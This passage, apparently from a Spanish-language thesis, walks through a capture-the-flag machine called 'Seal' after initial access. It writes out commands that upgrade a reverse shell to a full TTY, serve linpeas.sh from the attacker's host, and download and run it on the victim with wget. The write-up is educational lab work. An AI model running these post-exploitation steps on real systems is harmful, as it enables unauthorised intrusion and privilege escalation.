 Ya que el shell que obtenemos es algo rudimentario (no nos permite utilizar las flechas de movimiento, o funciones de búsqueda), decidimos mejorarlo. Para ello se realizan los siguientes pasos:
\begin{enumerate}
    \item Primero, investigamos si está \textit{Python} instalado, utilizando el comando \texttt{which python python2 python3}. Con esto descubrimos que podemos utilizar \textit{Python 3}.
    \item Ejecutamos el siguiente comando en la máquina víctima: \texttt{python3 -c `import pty; pty.spawn(``/bin/bash``)`}
    \item En la máquina, pulsamos los botones \texttt{Ctrl + z} para dormir el proceso actual.
    \item Luego, en la máquina host (no la víctima) se escribe \texttt{stty raw -echo}.
    \item Volvemos a activar el proceso dormido anteriormente con \texttt{fg}.
    \item Se crean las siguientes variables de entorno \texttt{export SHELL=bash \&\& export TERM=xterm-256color}
    \item Por último, se ejecuta el comando \texttt{reset}.
\end{enumerate}

Tras realizar esto, logramos tener un shell completamente funcional.\\

A continuación se decide utilizar la herramienta \textit{linPEAS}\cite{peass}. Para añadir el script a la víctima, se decide levantar un servidor \acrshort{http} temporal en la máquina host que contiene el script \texttt{linpeas.sh}. Esto se hace con el comando:
\begin{lstlisting}[language=bash]
python -m http.server 8000
\end{lstlisting}

Y en la máquina víctima nos lo vajamos con \texttt{wget}.

\begin{lstlisting}[language=bash]
wget http://10.10.14.49:8000/linpeas.sh
\end{lstlisting}

Una vez tenemos el archivo en la máquina víctima, le damos permisos de ejecución (\texttt{chmod +x linpeas.sh}) y lo ejecutamos.\\

El resultado de \textit{linPEAS}\footnote{\href{https://github.com/VictorNS69/TFM/blob/main/machines/seal/04_linpeas.txt}{Output de \textit{04\_linpeas.txt}}}, encontramos varios posibles vectores de ataque, pero ninguno ha resultado ser explotable. También se han encontrado algunos archivos ``extraños`` como \texttt{/opt/backups/archives/} y \texttt{/opt/backups/playground/} y archivos y procesos del usuario \textit{luis}.\\

